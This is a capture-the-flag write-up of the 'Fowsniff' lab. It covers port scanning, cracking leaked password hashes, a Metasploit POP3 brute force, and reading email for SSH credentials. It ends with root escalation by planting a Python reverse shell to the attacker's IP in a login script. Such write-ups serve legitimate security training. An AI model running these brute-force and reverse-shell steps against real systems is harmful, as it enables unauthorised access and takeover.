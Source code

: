 ## Target IP: `10.10.55.110`

---

### Environment Variables

```bash
export IP=10.10.55.110
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sC -sV -O -T4 $IP -oN nmap_results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.2p2 |
| 80 | HTTP | Apache 2.4.18 |
| 110 | POP3 | Dovecot pop3d |
| 143 | IMAP | Dovecot imapd |

---

### Web Enumeration

Visited: `http://$IP`

→ Site for a company called "Fowsniff Corp"

Source code reveals:

```
Escape Velocity by HTML5 UP
html5up.net | @ajlkn
Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)
```

---

### Directory Brute Force

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/dirb/common.txt -c --recursion
```

**Discovered:**

- `/images` → just a few images
- `/assets` → directory listing

Inside `/assets/`:

```
css/
fonts/
js/
sass/
```

---

### Creds Discovery (Via GitHub)

Hint mentioned **leaked employee emails and password hashes** that were on Pastebin, but Pastebin is gone.

Instead, found them here:

https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt

**Found in file:**

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

---

### Preparing Hash List

Used Vim to strip emails and keep only hashes:

```
:%s/^[^:]*://
```

Resulting list:

```
8a28a94a588a95b80163709ab4313aa4
ae1644dac5b77c0cf51e0d26ad6d7e56
1dc352435fecca338acfd4be10984009
19f5af754c31f1e2651edde9250d69bb
90dc16d47114aa13671c697fd506cf26
a92b8a29ef1183192e3d35187e0cfabd
0e9588cb62f4b6f27e33d449e2ba0b3b
4d6e42f56e127803285a0a7649b5ab11
f7fd98d380735e859f8b2ffbbede5a7e
```

---

### Hash Cracking with CrackStation

Result:

```
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
```

→ Missing one hash crack (no match)

Saved cracked passwords to `cracked_passwords.txt`

---

### Metasploit POP3 Brute Force

Started `msfconsole`

Used module:

```bash
use auxiliary/scanner/pop3/pop3_login
```

Originally considered:

```bash
set USER_FILE list_of_usernames.txt
set PASS_FILE cracked_passwords.txt
```

But switched to faster method:

```bash
set USERPASS_FILE userpass.txt
```

Contents of `userpass.txt`:

```
mauer mailcall
mustikka bilbo101
tegel apples01
baksteen skyler22
seina scoobydoo2
mursten carp4ever
parede orlando12
sciana 07011972
```

Launched:

```bash
set RHOSTS $IP
run
```

**Valid credentials found:**

```
seina:[REDACTED]
```

---

### POP3 Login with Netcat

```bash
nc $IP 110
```

Commands used:

```bash
user seina
pass [REDACTED]
list
retr 1
retr 2
```

**Email #2 included line:**

```
The temporary password for SSH is "[REDACTED]"
```

---

### SSH Access Attempts

Tried:

```bash
ssh seina@$IP
# → failed

ssh stone@$IP
# → failed
```

Checked names mentioned in other email: **devin, baksteen, skyler, aj**

**Success:**

```bash
ssh baksteen@$IP
# Password: [REDACTED]
```

---

### User Enumeration

```bash
sudo -l
# → baksteen may not run sudo

groups
# → users baksteen
```

Looked for files group-owned by "users":

```bash
find / -group baksteen -perm -g=x 2>/dev/null
# → nothing useful

find / -group users -perm -g=x 2>/dev/null
# → /opt/cube/cube.sh (stands out)
```

---

### Exploiting `/opt/cube/cube.sh`

Discovered this script runs at login (sets banner).

Replaced contents of `cube.sh` with Python reverse shell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.24.56",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Started listener:

```bash
nc -lvnp 8080
```

Closed SSH session and logged in again:

```bash
ssh baksteen@$IP
```

**Root shell received via reverse shell**

---

### Root Flag

```bash
cd /root
cat root.txt
```
